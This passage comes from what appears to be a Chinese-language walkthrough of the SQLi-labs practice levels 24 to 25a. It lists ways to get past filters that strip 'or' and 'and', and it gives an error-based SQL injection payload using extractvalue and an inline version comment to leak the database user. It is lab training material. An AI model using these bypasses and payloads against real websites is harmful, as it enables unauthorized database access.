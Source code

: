 ![img](assets/1666778107508-ae42789d-97b8-4352-9789-c0e18553e9b4.png)

过关。



## Less-24   Second Degree Injections *Real treat* -Store Injections (二次注入)

没什么好说的，常规的二次注入

## Less-25   Trick with OR & AND (单次过滤or和and的单引号闭合注入)

绕过思路：

​    **1. 大小写变形：Or,OR,oR**

​    **2.  编码，hex，urlencode**

​    **3. 添加注释**/!00000or/

​    **4. 利用符号 && ||**

这里用第3种方法进行：?id=-1' /!00000or/extractvalue(1,concat(0x7e,user(),0x7e))%23

![img](assets/1666781994033-eb180660-4132-4740-8279-93b5229f6d9e.png)

## Less-25a   Trick with OR & AND (过滤了or和and的无闭合数字型注入)
